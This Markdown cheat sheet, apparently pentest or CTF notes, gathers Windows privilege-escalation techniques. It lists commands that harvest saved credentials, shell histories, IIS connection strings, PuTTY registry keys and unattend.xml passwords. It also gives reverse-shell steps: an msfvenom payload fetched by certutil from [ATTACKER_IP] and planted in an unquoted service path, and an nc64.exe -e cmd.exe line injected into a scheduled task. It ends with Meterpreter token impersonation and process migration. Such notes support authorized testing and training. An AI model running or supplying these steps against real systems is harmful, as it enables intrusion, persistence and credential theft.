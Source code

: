 ```yaml
---
title: 5 – Privesc Windows
summary: Privilege Escalation step – a note for elevating privileges on a Windows machine.
description: Privilege Escalation step – a note for elevating privileges on a Windows machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>doskey /history</font>**</br>
 > Show user input history.

 > 
 > **<font color=red>powershell -c "Get-Service"</font>**</br>
 > Return services.

 > 
 > **<font color=red>Get-ScheduledTask</font>**</br>
 > Return Scheduled tasks.

 > 
 > **<font color=red>cmdkey /list</font>**</br>
 > List saved credentials (can’t see password).</br>
 > **<font color=red>runas /savecred /user:</font>admin <font color=red>powershell.exe</font>**</br>
 > Run a program with saved creds.

 > 
 > **<font color=red>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show CMD history.

 > 
 > **<font color=red>type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</font>**</br>
 > Show Powershell History.

 > 
 > **<font color=red>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString</font>**</br>
 > Search for database password in IIS config.

 > 
 > **<font color=red>reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s</font>**</br>
 > Look for Putty credentials in registers (SimonTatham is PuTTY’s creator).

# Automated Scripts

---

### POWERUP

**https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1**

 > 
 > **<font color=red>. .\PowerUp.ps1</font>**</br>
 > **<font color=red>Invoke-AllChecks</font>**

---

### EXPLOIT-SUGGESTER

**https://github.com/AonCyberLabs/Windows-Exploit-Suggester** 

#### On target

 > 
 > **<font color=red>systeminfo</font>**

#### On attacker machine

 > 
 > **<font color=orange>pip install xlrd==1.2.0</font>**</br>
 > 
 > **<font color=red>windows-exploit-suggester.py --update</font>**</br>
 > **<font color=red>windows-exploit-suggester.py --systeminfo</font> systeminfo.txt <font color=red>--database</font> \[DATE\]-mssb.xls**

---

### WINPEAS



#### WINPEAS Output

````
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected YOU CAN MODIFY THIS SERVICE: AllAccess
````

#### On attacker machine

 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] -f <font color=red>exe -o</font> Wise.exe**</br>
 > Create a reverse shell with the name of the modifiable service.
 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener.

#### On target machine

 > 
 > **<font color=red>cd "C:\\Program Files (x86)\\</font>Wise"**</br>
 > **<font color=red>certutil.exe -urlcache -f</font> http://\[ATTACKER_IP\]:\[ATTACKER_PORT\]/Wise.exe Wise.exe**</br>
 > Download crafted executable and place it where the space is in the vulnerable path.
 > 
 > **<font color=red>sc.exe stop</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe query</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe start</font> WiseBootAssistant**</br>
 > Restart the service to execute the crafted one. 

---

### PRIVESCHECK

**https://github.com/itm4n/PrivescCheck**

 > 
 > **<font color=red>Set-ExecutionPolicy Bypass -Scope process -Force</font>**</br>
 > **<font color=red>. .\PrivescCheck.ps1</font>**</br>
 > **<font color=red>Invoke-PrivescCheck</font>**</br>

---

### ROADRECON (Azure AD)

**https://github.com/dirkjanm/ROADtools/wiki/Getting-started-with-ROADrecon**

# Abusing Schtasks

---

### Show Schtasks

 > 
 > **<font color=red>schtasks /query /tn</font> vulnerableTask <font color=red>/fo list /v</font>**</br>
 > Show detail info about the scheduled task.
 > 
 > **<font color=red>cd c:\\Program Files (x86)\\SystemScheduler\\Events</font>**</br>
 > **<font color=red>type</font> \[ID\]<font color=red>.INI_LOG.txt</font>**
 > Show tasks logs.

---

### Replace executable

 > 
 > **<font color=red>mv</font> excutedByTask.exe excutedByTask.exe.bak**</br> 
 > **<font color=red>mv</font> msfvenomeReverseShell excutedByTask.exe**
 > Replace exe that being executed by scheduled tasks.

---

### Inject scheduled task

 > 
 > **<font color=red>echo</font> c:\\tools\\nc64.exe <font color=red>-e cmd.exe</font> \[ATTACKER_IP\] \[ATTACKER_PORT\] <font color=red>\> C:\\tasks\\schtask.bat</font>**</br>
 > Inject scheduled task with reverse shell.

# Abusing Privileges

---

Here are the most commonly abused privileges:

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

 > 
 > **<font color=red>whoami /priv</font>**</br>
 > Show current user privileges.

---

### SeDebugPrivilege and SeImpersonatePrivilege

When **SeDebugPrivilege** and **SeImpersonatePrivilege** are enabled, we can impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > **<font color=red>list_tokens -g</font>**</br>
 > List tokens.
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

# Unattended Path

Unattended Setup is the method by which OEMs (Original Equipment Manufacturers) install Windows NT in unattended mode.
C:\\Windows\\Panther\\Unattend\\Unattended.xml is where users' passwords are stored in base64. 

 > 
 > **<font color=red>type C:\\Windows\\Panther\\Unattend\\Unattended.xml</font>**</br>
 > Display unattended password.

````xml
<AutoLogon>
    <Password>
        <Value>dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=</Value>
        <PlainText>false</PlainText>
    </Password>
    <Enabled>true</Enabled>
    <Username>Administrator</Username>
</AutoLogon>
````
